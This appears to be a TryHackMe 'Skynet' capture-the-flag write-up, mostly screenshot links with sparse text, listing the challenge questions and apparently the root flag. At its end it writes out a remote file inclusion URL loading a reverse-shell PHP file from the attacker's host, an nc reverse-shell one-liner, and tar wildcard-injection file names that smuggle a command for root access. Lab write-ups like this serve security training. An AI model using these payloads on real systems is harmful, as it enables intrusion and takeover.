_Hasta la vista, baby._  

Are you able to compromise this Terminator themed machine?



You can follow our official walkthrough for this challenge on [our blog](https://tryhackme.com/r/resources/blog/skynet-writeup).

###### Answer the questions below


What is Miles password for his emails?

What is the hidden directory?

What is the vulnerability called when you can include a remote file for malicious purposes?

What is the user flag?  

What is the root flag?
3f0372db24753accc7179a282cd6a949


#### Nmap Scan (80)


#### SMB (445)






#### HTTP






















http://10.10.130.201/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.21.174.19:8000/reverse_shell.php

```
```cd
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip>
1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```


